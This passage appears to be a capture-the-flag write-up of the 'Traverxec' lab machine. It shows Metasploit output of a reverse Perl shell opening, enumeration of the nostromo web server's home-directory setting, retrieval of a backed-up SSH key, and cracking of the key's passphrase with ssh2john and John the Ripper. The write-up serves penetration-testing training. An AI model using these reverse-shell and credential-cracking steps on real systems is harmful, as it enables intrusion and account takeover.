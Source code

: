 ```bash
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.22:4444 -> 10.10.10.165:57986) at 2019-12-07 13:54:50 +0530

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And we have a shell

## Enumeration 2
Going back to the config file that we found, there was another interesting entry in there

```apache
# HOMEDIRS [OPTIONAL]
homedirs  /home
homedirs_public  public_www
```

From the `nostromo` docs
```
HOMEDIRS
To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the
home directories are stored, normally /home.  
To access a users home directory enter a ~ in the URL followed by the 
home directory name like in this example:

http://www.nazgul.ch/~hacki/
```

So there is a folder named `public_www`, in the folder `/home/david`

Lets see whats in the there

```bash
$ cd /home/david/public_www
$ ls
index.html  protected-file-area
$ cd protected-file-area
$ ls
backup-ssh-identity-files.tgz  home
```

Looks like a backup of ssh files. I copied it to my system and extracted it. The private key is encrypted with a pass phrase.
Lets try to bruteforce the pass phrase using `John`
#### John The Ripper
We have to convert it before cracking, using `ssh2john.py`
```bash
root@kali:~/Desktop/traverxec/home/david/.ssh# python ssh2john.py id_rsa > johncrack
root@kali:~/Desktop/traverxec/home/david/.ssh# ls
authorized_keys  crackjohn  id_rsa  id_rsa.pub  johncrack  ssh2john.py

root@kali:~/Desktop/traverxec/home/david/.ssh# john --wordlist=/usr/share/wordlists/rockyou.txt johncrack 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
```